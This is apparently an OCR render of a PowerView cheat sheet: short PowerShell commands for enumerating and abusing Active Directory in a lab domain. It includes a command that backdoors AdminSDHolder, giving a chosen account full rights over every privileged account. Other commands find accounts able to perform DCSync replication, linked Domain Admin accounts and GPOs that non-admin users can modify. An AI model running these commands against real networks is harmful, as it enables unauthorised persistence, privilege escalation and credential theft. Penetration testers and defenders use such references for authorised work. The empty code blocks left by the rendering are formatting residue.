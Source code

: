 ```powershell
```
# audit the permissions of AdminSDHolder, resolving GUIDs
```powershell
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs

```
# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All

```
# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
```powershell
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

```
# find linked DA accounts using name correlation
```powershell
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}

```
# save a PowerView object to disk for later usage
```powershell
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml

```
# Find any machine accounts in privileged groups
```powershell
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}
```
# Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights
```powershell
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```
# find all policies applied to a current machine
```powershell
Get-DomainGPO -ComputerIdentity windows1.testlab.local
```
# enumerate all groups in a domain that don't have a global scope, returning just group names
```powershell
```